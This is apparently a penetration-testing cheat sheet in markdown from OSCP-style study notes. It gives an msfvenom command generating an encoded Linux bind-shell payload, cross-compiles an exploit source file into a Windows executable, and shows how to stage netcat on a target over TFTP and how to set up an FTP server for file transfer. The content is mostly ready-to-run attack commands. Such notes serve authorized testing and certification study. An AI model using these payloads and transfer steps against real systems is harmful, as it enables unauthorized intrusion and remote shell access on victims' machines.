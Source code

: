 ## linux bind shell - exploitation - 32 bit
```bash
msfvenom -p linux/x86/shell_bind_tcp LPORT=PORT -f c -b "\x00\x0a\x0d\x20" –e x86/shikata_ga_nai
```


# Cross compilation
## mingw-w64 
https://www.systutorials.com/docs/linux/man/1-i686-w64-mingw32-gcc/
```bash
 i686-w64-mingw32-gcc 646-fixed.c -lws2_32 -o 646.exe

```

# File transfer

https://blog.ropnop.com/transferring-files-from-kali-to-windows/

## TFTP
Server
```bash
mkdir /tftp
atftpd --daemon --port 69 /tftp
cp /usr/share/windows-binaries/nc.exe /tftp/

```
Client
```bash
tftp -i SERVER-IP get nc.exe
```

## FTP
```bash
apt-get update && apt-get install pure-ftpd
```
Create a new user for the ftp server
```bash
#!/bin/bash
groupadd ftpgroup
useradd -g ftpgroup -d /dev/null -s /etc ftpuser
pure-pw useradd offsec -u ftpuser -d /ftphome
pure-pw mkdb
cd /etc/pure-ftpd/auth/
ln -s ../conf/PureDB 60pdb
mkdir -p /ftphome
chown -R ftpuser:ftpgroup /ftphome/
/etc/init.d/pure-ftpd restart
```
Run the script
```bash
chmod 755 setup-ftp
./setup-ftp
```
